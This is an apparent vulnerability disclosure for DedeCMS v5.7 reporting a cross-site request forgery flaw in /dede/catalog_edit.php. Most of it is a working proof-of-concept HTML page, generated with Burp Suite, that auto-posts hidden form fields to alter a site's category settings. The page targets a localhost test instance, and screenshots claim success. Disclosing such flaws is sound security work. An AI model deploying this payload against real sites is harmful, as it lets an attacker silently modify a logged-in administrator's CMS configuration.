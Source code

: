 target:https://github.com/wdsunwq/DedeCMSv5
version: v5.7

DedeCMS v5.7 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /dede/catalog_edit.php

![1](https://github.com/itsqian797/cms/assets/161734504/c33fb070-eeb3-4f25-8a6f-a2ac97b5cead)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/src/dede/catalog_edit.php" method="POST">
      <input type="hidden" name="dopost" value="save" />
      <input type="hidden" name="id" value="1" />
      <input type="hidden" name="topid" value="0" />
      <input type="hidden" name="issend" value="1" />
      <input type="hidden" name="ishidden" value="0" />
      <input type="hidden" name="channeltype" value="1" />
      <input type="hidden" name="typename" value="�&#133;&#136;�&#167;&#166;�&#184;&#164;�&#177;&#137;123" />
      <input type="hidden" name="sortrank" value="10" />
      <input type="hidden" name="corank" value="0" />
      <input type="hidden" name="typedir" value="&#123;cmspath&#125;&#47;a&#47;xianqinlianghan" />
      <input type="hidden" name="isdefault" value="1" />
      <input type="hidden" name="defaultname" value="index&#46;html" />
      <input type="hidden" name="ispart" value="0" />
      <input type="hidden" name="cross" value="0" />
      <input type="hidden" name="crossid" value="" />
      <input type="hidden" name="moresite" value="0" />
      <input type="hidden" name="siteurl" value="" />
      <input type="hidden" name="dfstyle" value="&#123;style&#125;" />
      <input type="hidden" name="tempindex" value="&#123;style&#125;&#47;index&#95;article&#46;htm" />
      <input type="hidden" name="templist" value="&#123;style&#125;&#47;list&#95;article&#46;htm" />
      <input type="hidden" name="temparticle" value="&#123;style&#125;&#47;article&#95;article&#46;htm" />
      <input type="hidden" name="namerule" value="&#123;typedir&#125;&#47;&#123;Y&#125;&#47;&#123;M&#125;&#123;D&#125;&#47;&#123;aid&#125;&#46;html" />
      <input type="hidden" name="namerule2" value="&#123;typedir&#125;&#47;list&#95;&#123;tid&#125;&#95;&#123;page&#125;&#46;html" />
      <input type="hidden" name="seotitle" value="" />
      <input type="hidden" name="keywords" value="" />
      <input type="hidden" name="description" value="" />
      <input type="hidden" name="content" value="&amp;nbsp&#59;" />
      <input type="hidden" name="imageField&#46;x" value="20" />
      <input type="hidden" name="imageField&#46;y" value="13" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

![2](https://github.com/itsqian797/cms/assets/161734504/49e9ecf1-519e-4404-9145-097a8b78b0db)


Successed

![3](https://github.com/itsqian797/cms/assets/161734504/271d2574-865d-4330-8cf1-1791ba96f2de)
